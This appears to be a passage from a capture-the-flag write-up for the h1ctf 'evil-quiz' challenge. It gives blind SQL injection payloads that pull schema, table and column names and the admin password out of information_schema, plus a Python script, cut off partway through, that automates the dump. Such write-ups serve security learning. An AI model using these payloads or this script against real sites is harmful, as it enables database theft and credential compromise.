 To exclude the possible matches, we need to use the really random name `jghuyqhfyxjgh123` to be sure that nobody is using it yet.

Let's create a few payloads. To get schema name, table names and table column names, we will use payload with case insensitive  `LIKE` operator. To get password, we will use case sensitive `LIKE BINARY` operator. To decrease the number of requests, unused characters from the charset will be excluded.

1. Get schema name:
   1. `select count(*) from information_schema.schemata where schema_name != "information_schema" and schema_name like "' + tmp_known + '%" limit 1`
2. Get table name with users in schema *quiz*:
   1. `select count(*) from information_schema.tables where table_schema like "quiz" and table_name like "' + tmp_known + '%" limit 1`
3. Get column names in the *admin* table:
   1. `select count(*) from information_schema.columns where table_schema like "quiz" and table_name="admin" and column_name like "' + tmp_known + '%" limit 1`
   2. ``select count(*) from information_schema.columns where table_schema like "quiz%" and table_name="admin" and column_name not in("id") and column_name like "' + tmp_known + '%" limit 1`
   3. `select count(*) from information_schema.columns where table_schema like "quiz%" and table_name="admin" and column_name not in("id","password") and column_name like "' + tmp_known + '%" limit 1`
4. Get record values in *admin* table:
   1. `select count(*) from quiz.admin where username like "' + tmp_known + '%" limit 1`
   2. ``select count(*) from quiz.admin where username="admin" and password like binary "%' + temp_char + '%" limit 1`
   3. `select count(*) from quiz.admin where username="admin" and password like binary "' + tmp_known + '%" limit 1`

Python script to dump db:

```python
import requests as req
import string
import re

QUIZ_URL = 'https://hackyholidays.h1ctf.com/evil-quiz'
START_URL = 'https://hackyholidays.h1ctf.com/evil-quiz/start'
POST_HEADERS = {
  'Content-Type': 'application/x-www-form-urlencoded'
}

def send_sqli(query):
  session = req.session()
  session.get(QUIZ_URL) # to generate cookies
  session.post(
    QUIZ_URL,
    headers=POST_HEADERS,
    data={'name': 'jghuyqhfyxjgh123' + query}
  )
  res = session.post(
    START_URL,
    headers=POST_HEADERS,
    data='ques_1=0&ques_2=0&ques_3=0'
  )
  count_match = re.search(r'There is (\d+) other', res.text)
  if count_match:
    return int(count_match.group(1)) > 0
  print('Match not found')
  exit(0)

def get_charset():
  charset = ''
  base_charset = string.digits + string.ascii_letters + string.punctuation + ' '
  for char in base_charset:
    temp_char = '\\' + char if char == '_' or char == '%' or char == '"' else char

```